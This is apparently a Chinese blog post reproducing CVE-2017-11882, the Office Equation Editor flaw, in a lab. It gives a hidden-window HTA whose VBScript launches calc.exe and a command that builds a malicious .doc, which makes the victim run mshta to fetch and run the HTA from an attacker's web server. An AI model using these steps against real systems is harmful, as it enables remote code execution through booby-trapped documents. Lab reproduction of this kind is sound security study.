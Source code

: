 ```yaml
---
layout: post
title: 内存泄漏漏洞复现(CVE-2017-11882-Memory Corruption Vulnerability)
date: 2017-11-26
tags: 漏洞复现  
---
```






![vulnerability][1]

<br>

###  内容：内存泄漏漏洞复现(CVE-2017-11882-Memory Corruption Vulnerability)    
1、 利用文件制作  
2、 效果演示


### xxx.doc制作步骤   


下载代码[github-Ridter](https://github.com/Ridter/CVE-2017-11882)到某linux系统上面，系统要有`apache`服务   

在服务器的`/var/www/html`目录下生成`execute.hta`(名字随意)文件   


    <HTML>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <HEAD>
    <script language="VBScript">
    Window.ReSizeTo 0, 0
    Window.moveTo -2000,-2000
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
    self.close
    </script>
    <body>
    demo
    </body>
    </HEAD>
    </HTML>  



执行`python Command109b_CVE-2017-11882.py -c "mshta http://192.168.176.129/execute.hta" -o havy_109.doc`得到利用文件   

43b同上   

### controller效果  

![controller][2]







### 参考链接  

[github-Ridter](https://github.com/Ridter/CVE-2017-11882)   
[github-embedi](https://github.com/embedi/CVE-2017-11882)


------

> keep learning ！  --by myself

----------



<br>

[1]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-11-26/vulnerability.png   
[2]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-11-26/1.png   
